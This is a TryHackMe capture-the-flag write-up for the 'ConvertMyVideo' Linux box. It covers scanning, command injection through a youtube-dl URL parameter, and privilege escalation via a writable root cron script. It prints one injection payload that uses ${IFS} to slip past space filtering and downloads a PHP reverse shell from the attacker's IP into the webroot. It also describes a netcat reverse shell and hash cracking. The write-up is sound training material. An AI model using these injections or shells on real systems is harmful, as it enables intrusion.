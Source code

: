 # ConvertMyVideo TryHackMe Writeup
### Level: `Medium` | OS: `Linux`

![logo](1.png)

## Scanning
We launch nmap with scripts and software versions on all ports.

![](2.png)

## Enumeration
We access the website, we see that it is a simple application that collects the ID of a youtube video.

![](3.png)

We use **dirsearch** and list an interesting directory.

![](6.png)

We entry the *"/*******/"* directory and list a basic authentication panel.

![](4.png)

We continue reviewing the variable *"yt_url"* of the web application, investigating by Google I find this [github:](https://github.com/ytdl-org/youtube-dl/) where it shows us useful commands.

#### --version

![](7.png)

The **"--exec"** command not working....It seems that there are problems with the coding, looking for a way to solve the problem I discovered a way to be able to execute the **"ls"** command without problems.

![](8.png)

Okay, so let's use the payload so we can read the first flag.

![](9.png)


## Exploitation
We create a pentestmonkey reverse shell, raise a python server, set a netcat listening and use the following command to obtain a connection on the victim machine.

![](10.png)

```bash
<`wget${IFS}10.11.30.149:8000/m3.php${IFS}-O${IFS}/var/www/html/m3.php`
```

#### Reverse shell

![](11.png)

Once we have access to the inside of the machine, we read the file *".htpasswd"* and crack the hash with the dictionary **"rockyou.txt"**.

![](12.png)

#### Cracking with JTR

![](13.png)

## Privilege Escalation
After launching several reconnaissance scripts, I end up analyzing the processes that are being executed by the system on a scheduled basis with **pspy** tool and we detect a *"clean.sh"* script running with *"UID=0" (root)*.

![](14.png)

We check the permissions we have on the file, we see that we can write to it, so we insert a line to invoke a reverse shell with **netcat** and we put another **netcat** listening in our Kali.

![](15.png)

We wait a few minutes for the script to run with our malicious code and we will have an interactive connection as root.

![](16.png)

---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

<img src='https://m3n0sd0n4ld.github.io/imgs/linkedin.png' width='40' align='center'> [David-Uton](https://www.linkedin.com/in/david-uton/)
<img src='https://m3n0sd0n4ld.github.io/imgs/twitter.png' width='50' align='center'> [@David_Uton](https://twitter.com/David_Uton)
